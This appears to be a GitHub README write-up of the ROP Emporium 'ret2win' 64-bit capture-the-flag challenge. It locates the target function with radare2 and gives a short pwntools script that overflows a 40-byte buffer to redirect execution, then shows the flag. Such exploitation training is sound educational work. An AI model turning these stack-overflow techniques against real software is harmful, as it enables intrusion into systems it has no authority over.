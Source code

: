 # ROP EMPORIUM

***

| Challenge          | Walkthrough                               |
| ------------       | --------                                  |
| [Ret2Win](#ret2win)| [pdf](ROP_Emporium/Writeups/Ret2win64.pdf)|
| Split              |                                           |
| Callme             |                                           |
| Write4             |                                           |

***

## RET2WIN 64<a name="ret2win"></a>

> ### 1. Problem
>> In this challenge, there is a function called ret2win located somewhere
>> in the binary which can be used to cat the flag.txt file. The goal is to:
>>
>> - [ ] Find offset of the ret2win function
>>
>> - [ ] Find out the buffer length
>>
>> - [ ] Overflow the buffer and overwrite `$rsp` with the ret2win address offset

> ### 2. Solution
>> - [X] Find offset of the ret2win function
>>> I used the `> afl` command in radare2 to list the functions with their offsets.
>>> This showed me that the ret2win function was located at address 0x00400756.
>>
>> - [X] Find out the buffer length
>>> In the ROP Emporium challenges all of the buffers are 40 bytes long.
>>
>> - [X] Overflow the buffer and overwrite `$rsp` with the ret2win address offset
>>> I used a pwntools script in order to execute the exploit.
~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('ret2win')
context.log_level = 'debug'

padding = cyclic(40)
ret2win = p64(0x00400756)

payload = padding
payload += ret2win

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recvall()

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 
***
